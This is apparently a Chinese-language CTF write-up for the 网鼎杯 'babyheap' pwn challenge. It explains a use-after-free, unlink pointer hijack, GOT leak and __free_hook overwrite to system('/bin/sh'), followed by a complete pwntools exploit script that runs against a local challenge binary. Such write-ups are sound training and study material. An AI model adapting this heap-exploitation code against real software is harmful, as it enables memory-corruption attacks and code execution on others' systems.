 title: babyheap
date: 1970-1-1
categories:
- PWN
---

# 网鼎杯第一场

- 程序功能:新建,编辑,打印,free
- free处没有置空指针,导致可以uaf
- malloc每次都是0x20的fastbin,编辑功能可以使用3次
- 自写了readn函数,没有溢出点
- edit可以修改free后堆块的bk,fd

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Full RELRO导致got表不可写,所以只能劫持__malloc_hook或者__free_hook_来劫持程序的流程
- 现在面临两个问题,一个是泄露程序基址,一个是控制指针
- 关于泄露程序基址的问题,我们可以采用先劫持指针再leak的方法,比如指向got表的一部分,然后打印它的值
- 这里我采用unlink的方法来劫持指针,首先通过fastbin的性质,并且和存在的UAF泄露堆基址,然后利用一次edit来实现fastbin堆块的分配
- 这里我们可以用错位生成的fastbin的数据段进行修改出一个fake chunk,并且通过unlink劫持一根指指针
- 我劫持的是chunklist[9],因为这样我相当于同时控制了3根指针
- 拿到指针的控制权后,首先修改edit次数,因为count在全局变量里是int型,所以我将其修改成了0xfffffff0,也就是一个负数,这样我就可以无限次数的edit
- 随后打印got表内容,算出偏移,再次edit指针,将其指向__free_hook_,并且覆写其为system函数,free之前写好的包含"/bin/sh\x00"的堆块

# exp

```python
from pwn import *

r = process("./babyheap")
ptr = 0x602060
sys_libc = 0x45390
atoi_libc = 0x36E80

def add(index,content):
    r.sendlineafter("Choice:","1")
    r.sendlineafter("Index:",str(index))
    if len(content) == 32:
        r.sendafter("Content:",content)
    else:
        r.sendlineafter("Content:",content)

def edit(index,content):
    r.sendlineafter("Choice:","2")
    r.sendlineafter("Index:",str(index))
    if len(content) == 32:
        r.sendafter("Content:",content)
    else:
        r.sendlineafter("Content:",content)

def show(index):
    r.sendlineafter("Choice:","3")
    r.sendlineafter("Index:",str(index))

def free(index):
    r.sendlineafter("Choice:","4")
    r.sendlineafter("Index:",str(index))

def exp():
    add(9,p64(0x31)*4)
    add(0,p64(0x31)*4)
    add(1,p64(0x31)*4)
    add(2,p64(0x31)*4)

    free(1)
    free(0)
    free(9)
    show(9)
    heapbase = u64(r.recv(4) + '\x00'*4) -0x30 #heapbase
    print "%x"%heapbase
    payload = "a"*8 + p64(0x80) + p64(ptr + 8 * 9 - 0x18) + p64(ptr + 8 * 9 - 0x10)
    add(3,payload)
    edit(0,p64(heapbase + 0x80))       #fastbin
    add(4,"/bin/sh\x00")
    add(5,p64(0x80)+p64(0x90)+"flag")
    add(6,"flag")
    add(7,"flag"*8)
    add(8,"flag"*8)
    free(2) #unlink
    
    payload = p64(0x6020B0) + p64(0x601FE8)
    edit(9,payload)
    edit(6,p64(4294967286)) #count edit

    show(7)
    atoi = u64(r.recv(6) + '\x00\x00')
    hook = atoi - atoi_libc + 3958696
    sys = atoi - atoi_libc + sys_libc
    print "hook %x"%hook
    print "sys %x"%sys
    payload = p64(hook)
    edit(9,payload)
    edit(6,p64(sys))
    free(4)
    r.interactive()

if __name__=="__main__":
    exp()
```
